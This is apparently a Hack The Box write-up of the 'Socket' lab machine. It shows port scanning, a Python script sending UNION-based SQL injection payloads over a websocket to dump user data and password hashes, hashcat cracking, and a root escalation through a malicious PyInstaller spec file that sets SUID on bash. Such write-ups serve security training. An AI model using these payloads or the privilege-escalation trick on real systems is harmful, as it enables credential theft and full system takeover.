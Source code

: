 ```yaml
---
title: "Hack The Box - Socket [Medium]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


So let's start with a rustscan of the machine

```bash
Open 10.10.11.206:22
Open 10.10.11.206:80
Open 10.10.11.206:5789
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 14:37 EEST
Initiating Ping Scan at 14:37
Scanning 10.10.11.206 [2 ports]
Completed Ping Scan at 14:37, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 14:37
Scanning qreader.htb (10.10.11.206) [3 ports]
Discovered open port 22/tcp on 10.10.11.206
Discovered open port 80/tcp on 10.10.11.206
Discovered open port 5789/tcp on 10.10.11.206
Completed Connect Scan at 14:37, 0.05s elapsed (3 total ports)
Nmap scan report for qreader.htb (10.10.11.206)
Host is up, received syn-ack (0.050s latency).
Scanned at 2023-04-21 14:37:19 EEST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
5789/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

I went to port 80 to check what is there, the idea of the website is to create QR Codes and extract text out of QR Codes, first I thought that maybe there is something with the QR codes but after some examination I decided to give up on that path and I went over the other things such as the Linux/Windows application.

Upon further discovery using `strings` over the linux binary, I realized that this a packaged exectuable that was created with `pyinstaller` so I've tried to unpack it with `uncompyle6` and then the `pyc` files with `pycdc`. 

I found out the following things from the source code of `qreader`:

```python
...
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
...
def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

def update(self):
	response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
		'version': VERSION })))
	data = json.loads(response)
	if 'error' not in data.keys():
		msg = '[INFO] ' + data['message']
		self.statusBar().showMessage(msg)
		return None
	error = None['error']
	self.statusBar().showMessage(error)
```

This source code tries to connect to a websocket to get its version/update, so the paths for the websockets are:

```
ws://ws.qreader.htb:5789/update
ws://ws.qreader.htb:5789/version
```

I've tested both of these with `claws` tool. Then I crafted a python script to connect with the socket. 

> **_WARNING:_** Be really careful which quotes you are using, `'` or `"` because that could interfere with the SQLi that I found in the `version` path!

```python
from websockets.sync.client import connect
import json

with connect("ws://ws.qreader.htb:5789/version") as websocket:
    websocket.send(json.dumps({'version': '0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -'}))
    m = websocket.recv()
    print(m)
```

With this script, I've enumerated the tables, columns and the username with the following payloads:

```SQL
'0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -' -> This finds the user Thomas Keller
'0.0.3" UNION SELECT group_concat(password),2,3,4 from users-- -' -> This find the password hash
```

Cracking the password

```bash
$ hashcat -m 0 -a 0 0c090c365fa0559b151a43e0fea39710 ~/tools/rockyou.txt
<PASSWORD>
```

Getting the username with [adusergen](https://github.com/syrull/hacks/tree/main/adusergen)

```bash
$ echo -n "Thomas Keller" | adusergen

Thomas.Keller
ThomasKeller
KellerThomas
Keller.Thomas
Tkeller
T.keller
Thomas-Keller
T.keller
thomas.keller
thomaskeller
kellerthomas
keller.thomas
		tkeller <--- Right One
t.keller
thomas-keller
t.keller
```

# Root

The root was fairly easy, you just have to read the documentation for spec files for `pyinstaller`, after that I crafted the following spec file:

```python
block_cipher = __import__('os').system('chmod +s /bin/bash')
```

```bash
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build priv.spec
105 INFO: PyInstaller: 5.6.2
105 INFO: Python: 3.10.6
107 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
110 INFO: UPX is not available.
script '/home/tkeller/minimal.py' not found
tkeller@socket:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
<HASH>
```

